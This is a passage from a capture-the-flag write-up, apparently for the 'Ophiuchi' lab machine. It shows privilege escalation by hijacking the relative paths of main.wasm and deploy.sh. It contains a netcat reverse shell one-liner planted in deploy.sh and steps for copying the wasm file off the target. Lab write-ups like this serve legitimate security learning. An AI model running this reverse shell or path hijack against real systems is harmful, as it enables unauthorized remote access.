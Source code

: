 As we can see, this is a Go Lang script that loads its variables from `main.wasm` and, if the value `f` under property `info` is equal to **1**, the file `deploy.sh` is executed.

As both files (`main.wasm` e `deploy.sh`) execute from a relative path, they are vulnerable to **path hijacking**, which we'll try now.

The initial step is to create both files and start them from a directory we have to write permissions, in this case, `/dev/shm`.

```bash
mkdir /dev/shm/zurc
cd /dev/shm/zurc
```

### `deploy.sh`

Creating this file is easy. At first, I'll just place an `id` command to be sure we have succeeded with the permission abuse.

```bash
#!/bin/bash

id
```

Once confirmed, we'll replace this file contents with the reverse shell command line below

```bash
#!/bin/bash

rm /tmp/zurc;mkfifo /tmp/zurc;cat /tmp/zurc|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/zurc
```

### `main.wasm`

This item is a little more complex to craft as when I first opened it in the editor, noticed that was something compiled and not plain text.

Searching a little on how to modify a wasm file, found this blog post on Mozilla developers [on how to convert a WebAssembly Text to WASM](https://developer.mozilla.org/en-US/docs/WebAssembly/Text_format_to_wasm), which also refers to the repo [WebAssembly/wabt: The WebAssembly Binary Toolkit no GitHub](https://github.com/webassembly/wabt).

The following steps were used to inspect and modify the `main.wasm` file:

- Locate the file in the victim machine and make a copy using `scp`

  ```bash
  # Ophiuchi
  admin@ophiuchi:~$ find / -type f 2> /dev/null | grep main.wasm
  /opt/wasm-functions/main.wasm
  /opt/wasm-functions/backup/main.wasm
  ```

  ```bash
  # Attacker Machine
  $ cd ./loot
  $ scp admin@10.10.10.227:/opt/wasm-functions/main.wasm .
  ```
